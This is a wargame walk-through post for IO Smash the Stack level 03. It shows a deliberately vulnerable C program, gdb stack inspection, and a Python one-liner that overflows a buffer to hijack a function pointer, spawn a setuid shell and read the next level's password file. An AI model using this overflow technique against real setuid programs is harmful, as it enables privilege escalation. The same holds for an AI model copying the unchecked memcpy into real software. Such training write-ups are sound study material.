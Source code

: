 +++
title = "IO Smash the stack level 03"
date = "2016-01-26T09:33:00-02:00"
publishdate = "2016-01-26"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-03"
project_url = "https://greyhat.dk/io-smashthestack-level-03"
type = "post"
description = "Walk-through"
image = "binary.png"
image_alt = "Binary pattern"
+++

## Level03

```sh
level3@io:~$ cd /levels/
level3@io:/levels$ ls -latr level03*
-r-------- 1 level3 level3  658 Sep 22  2012 level03.c
-r-sr-x--- 1 level4 level3 5238 Sep 22  2012 level03
```

level3@io:/levels$ cat level03.c
```c
//bla, based on work by beach

#include <stdio.h>
#include <string.h>

void good()
{
        puts("Win.");
        execl("/bin/sh", "sh", NULL);
}
void bad()
{
        printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
}

int main(int argc, char **argv, char **envp)
{
        void (*functionpointer)(void) = bad;
        char buffer[50];

        if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

        memcpy(buffer, argv[1], strlen(argv[1]));
        memset(buffer, 0, strlen(argv[1]) - 4);

        printf("This is exciting we're going to %p\n", functionpointer);
        functionpointer();

        return 0;
}
```

Oki so in order for us to get the shell we need to change the function pointer from `bad` to `good`. Since the program is so nice to provide us with the address of the funtion good

```sh
level3@io:/levels$ ./level03 aaaa
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
```

And since we are running in an little endian machine (reverse byte order) we need to reverse the address to \x74\x84\x04\x08 but first we need to find out where to put the address (Sure we could use brute force). But lets have a look at the stack

```sh
level3@io:/levels$ gdb -q level03
Reading symbols from /levels/level03...(no debugging symbols found)...done.
(gdb) r AAAA
Starting program: /levels/level03 AAAA
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
[Inferior 1 (process 18072) exited normally]
(gdb) break *0x0804855d <--- break just after the copy
Breakpoint 1 at 0x804855d
(gdb) r AAAA
Starting program: /levels/level03 AAAA

Breakpoint 1, 0x0804855d in main ()
(gdb) x/32x $esp
0xbffffc50:	0xbffffc70	0x00000000	0x00000000	0x00000001
0xbffffc60:	0xb7fff908	0xbffffc96	0xbffffca0	0xb7ef098c
0xbffffc70:	0x41414141	0xb7e9e315	0xbffffc97	0x00000001 <--- 0x41 = A
0xbffffc80:	0x00000000	0x080497c8	0xbffffc98	0x08048338
0xbffffc90:	0xb7ff0590	0x080497c8	0xbffffcc8	0x080485a9
0xbffffca0:	0xb7fcf324	0xb7fceff4	0x08048590	0xbffffcc8
0xbffffcb0:	0xb7e9e515	0xb7ff0590	0x0804859b	0x080484a4 <--- bad pointer (function pointer)
0xbffffcc0:	0x08048590	0x00000000	0xbffffd48	0xb7e85e46
(gdb) print 0xbffffcbc - 0xbffffc70
$1 = 76
```

So lets try to exploit it

```sh
level3@io:/levels$ ./level03 $(python -c 'print "A"*76 + "\x74\x84\x04\x08"')
This is exciting we're going to 0x8048474
Win.
sh-4.2$ cat /home/level4/.pass
XXXXXXXXXXXXXXXX
```


